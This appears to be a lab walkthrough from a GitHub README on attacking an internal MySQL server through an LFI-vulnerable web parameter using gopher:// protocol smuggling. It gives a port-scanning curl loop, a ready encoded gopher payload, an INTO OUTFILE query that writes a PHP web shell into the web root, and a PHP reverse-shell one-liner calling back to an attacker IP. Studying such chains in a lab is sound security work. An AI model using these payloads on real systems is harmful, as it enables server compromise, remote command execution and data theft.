

# Exploring MYSQL via GOPHER protocol :notebook:

 ### Introduction

 In this exploration, we will use gopher to access the MYSQL database, where MYSQL will be an internal service and will not be accessible via 3306 externally. Below we have a drawing of how this structure will be explored.

 <p align="center">
   
 </p>

 We can also call this technique **Protocol Smuggling**. The **Protocol Smuggling** is a technique used in cybersecurity and hacking where an attacker manipulates or hides data within communication protocols to bypass security systems, perform malicious actions, or exfiltrate data without detection.

 

## The Laboratory:test_tube:
* In this lab, we have an NGINX server running a web page on port 80. 
* On this page, there is already an LFI (Local File Inclusion) failure and from there, we will use Protocol Smuggling techniques with gopher to gain access to MYSQL.

 <p align="center">
   
 </p>

 * Changing the value of the url **get_picture=**, we can read the file from the target host.
 <p align="center">
   
 </p>

 **From our LFI scenario, we can move on to the smuggling exploration.**

## What is Gopher:question:

* Gopher is a communication protocol that was created in the early 1990s. Gopher operated on a client-server model. A Gopher server provided content, and a Gopher client (the software used to access the content) would connect to the server to navigate through menus and view available documents. Although Gopher was popular in the early days of the internet, it was eventually surpassed by HTTP and the graphical web, which offered more features like images, videos, animations, and more interactive interfaces.

 <p align="center">
   
 </p>

## Exploring:warning:

1. First we need to check which ports are open, for that, we will build a basic script for that.

```
for port in {21,25,80,8080,9000,3306,5422}; do echo $port; curl -s "http://10.10.0.4/?get_picture=gopher://localhost:$port/_teste"|cat; done
```
* Below we can see that we had return from port **80** and **3306**. For this exploration, we will use **3306**.

 <p align="center">
   
 </p>


2. To make it easier to assemble the gopher URL, we will use Gopherus in the link; https://github.com/tarunkant/Gopherus.
 <p align="center">
   
 </p>

 3. To use gopherus, MYSQL must not use a password. Since it is an internal access, we can use the root user without a password.

 * Normally direct access would be as follows;

 ```
 mysql -u root -h localhost
 ```

 * Let's try to use our script by sending a query to the MySQL version.

<p align="center">
   
 </p>

> [!IMPORTANT]  
 Here we have a detail to be observed. When creating the gopher payload, nullbyte is generated. When processing the request with URLENCODE, the URLDECODE occurs only once, where an error is generated because PHP does not understand the nullbyte. To solve this problem we need to generate double urlencode.

 * We use the website https://urlencode.org for double urlencode.

<p align="center">
   
</p>

4. Using our generated URL in gopher. Below we have the payload version.

```
gopher%3A%2F%2F127.0.0.1%3A3306%2F_%25a3%2500%2500%2501%2585%25a6%25ff%2501%2500%2500%2500%2501%2521%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2572%256f%256f%2574%2500%2500%256d%2579%2573%2571%256c%255f%256e%2561%2574%2569%2576%2565%255f%2570%2561%2573%2573%2577%256f%2572%2564%2500%2566%2503%255f%256f%2573%2505%254c%2569%256e%2575%2578%250c%255f%2563%256c%2569%2565%256e%2574%255f%256e%2561%256d%2565%2508%256c%2569%2562%256d%2579%2573%2571%256c%2504%255f%2570%2569%2564%2505%2532%2537%2532%2535%2535%250f%255f%2563%256c%2569%2565%256e%2574%255f%2576%2565%2572%2573%2569%256f%256e%2506%2535%252e%2537%252e%2532%2532%2509%255f%2570%256c%2561%2574%2566%256f%2572%256d%2506%2578%2538%2536%255f%2536%2534%250c%2570%2572%256f%2567%2572%2561%256d%255f%256e%2561%256d%2565%2505%256d%2579%2573%2571%256c%2512%2500%2500%2500%2503%2573%2565%256c%2565%2563%2574%2520%2540%2540%2576%2565%2572%2573%2569%256f%256e%253b%2501%2500%2500%2500%2501
```
* We include the payload in the ``get_picture=`` parameter.


<p align="center">
   
</p>

Here we can access MYSQL and consult the database version.

## Reverse Shell via MYSQL:fire:

* In this step, we will use an "into outfile" query.In MySQL, the INTO OUTFILE clause is used in a SELECT query to export the result of the query directly to a file in the server's file system. In other words, it allows you to save the output of a query into a file instead of just returning it as a result set.
```
select "<?php system($_GET[1337]);?>" into outfile "/var/www/html/oi.php";
```
* In this payload, we are asking MYSQL via Gopher to create a file in the NGINX default directory, with PHP's SYSTEM content in variable 1337. Let's see.

<p align="center">
   
</p>
<p align="center">
   
</p>

* By accessing our created file oi.php, we can execute it remotely within the web server.

<p align="center">
   
</p>

* knowing that it is a PHP server, we can create the reverse with the payload;

```
php -r '$sock=fsockopen("10.0.9.224",9001);exec("sh <&3 >&3 2>&3");'
```
<p align="center">
   
</p>

<p align="center">Done!</p>

<p align="center">
  
</p>